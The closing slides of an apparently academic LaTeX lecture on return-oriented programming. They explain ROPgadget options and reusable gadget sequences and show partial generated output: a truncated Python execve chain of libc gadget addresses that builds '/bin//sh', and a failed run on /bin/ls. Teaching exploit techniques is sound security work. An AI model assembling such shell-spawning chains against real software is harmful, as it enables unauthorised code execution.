\end{lstlisting}
\end{frame}

\begin{frame}{selected ROP gadget options}
    \begin{itemize}
    \item {\tt --offset X}: set start location for binray/library
    \item {\tt --badbytes XYZ}: ignores gadgets whose addresses contain cerain bytes
        \begin{itemize}
        \item to handle restrictions on input --- e.g no newline
        \item similar to writing shellcode without specific bytes
        \end{itemize}
    \end{itemize}
\end{frame}


% FIXME: demo

\subsection{reusable sequence}

\begin{frame}{common, reusable ROP sequences}
    \begin{itemize}
        \item most common idea: run a shell (command prompt)
            \begin{itemize}
            \item same thing `shellcode is named after'
            \item \texttt{ROPchain --binary example --ropchain} tries to do this
            \end{itemize}
        \item another possibilities: make memory executable + jump
            \begin{itemize}
            \item make `normal' shellcode work
            \end{itemize}
        \item probably more ideas
        \vspace{.5cm}
        \item if finding one of these in popular library\ldots
        \item can reuse across a lot of applications
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=ropchainex1]{ROPgadget --ropchain (works)}
\begin{lstlisting}[language={},style=script]
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 \
             --offset 0x10000000 --ropchain
...
        #!/usr/bin/env python
        # execve generated by ROPgadget

        from struct import pack

        # Padding goes here
        p = b''
        p += pack('<Q', 0x00000000101056fd) # pop rdx ; pop rcx ; pop rbx ; ret
        p += pack('<Q', 0x00000000101eb1a0) # @ .data
        p += pack('<Q', 0x4141414141414141) # padding
        p += pack('<Q', 0x4141414141414141) # padding
        p += pack('<Q', 0x000000001004a550) # pop rax ; ret
        p += '/bin//sh'
        p += pack('<Q', 0x00000000100374b0) # mov qword ptr [rdx], rax ; ret
...
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=ropchainex]{ROPgadget --ropchain (does not work?)}
\begin{lstlisting}[language={},style=script]
ROPgadget --binary /bin/ls --ropchain
...
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

        [+] Gadget found: 0x7694 mov byte ptr [rax], 0xa ; pop rbx ; pop rbp ; pop r12 ; ret
        [-] Can't find the 'pop rax' gadget. Try with another 'mov [reg], reg'

        [-] Can't find the 'mov qword ptr [r64], r64' gadget
...
\end{lstlisting}
\end{frame}



\end{document}
